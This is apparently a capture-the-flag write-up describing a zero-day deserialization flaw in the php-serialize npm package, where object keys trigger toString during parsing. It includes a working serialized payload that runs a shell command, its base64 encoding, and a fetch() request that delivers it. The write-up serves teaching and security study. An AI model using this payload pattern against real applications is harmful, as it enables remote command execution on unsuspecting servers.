 
## Zero Day Info

This challenge takes advantage of an undisclosed (at the time of the competition) zero day vulnerability on the `php-serialize` [npm package](https://www.npmjs.com/package/php-serialize). While parsing the given serialised payload, the library handles object keys as serialised objects (while in javascript they are always converted to strings), thus when added on an object, the `toString` method will be executed automatically to convert them to a string.

## Exploit

Generate a serilized object that when loaded will execute the toString and the command will be executed:
```
$ node ./gen_payload.js
Serialized command: C:7:"Command":49:{{"p":{"cmd":"cat /flag* >> server.log"},"s":null}}
Serialized object: a:1:{s:11:"exploit-key";N;}
Exploit payload: a:1:{C:7:"Command":49:{{"p":{"cmd":"cat /flag* >> server.log"},"s":null}};N;}
Exploit payload in base64: YToxOntDOjc6IkNvbW1hbmQiOjQ5Ont7InAiOnsiY21kIjoiY2F0IC9mbGFnKiA+PiBzZXJ2ZXIubG9nIn0sInMiOm51bGx9fTtOO30=
Exploit was executed successfully
```

For the given example exploit, the flag will be saved on the server.log file.

The payload can be send using (it will return an error):
```javascript
fetch("/", {
  "headers": {
    "content-type": "text/plain;charset=UTF-8"
  },
  "body": btoa('a:1:{C:7:"Command":49:{{"p":{"cmd":"cat /flag* >> server.log"},"s":null}};N;}'),
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```

But if we run the server log command, the flag will be returned inside the `server.log`:
```
[2025-07-06T06:18:53.311Z] Server listening on http://localhost:1337
ECSC{n0w_I_r3AlLy_gOt_mA_F1Rt_z3r0-d4y!}
```
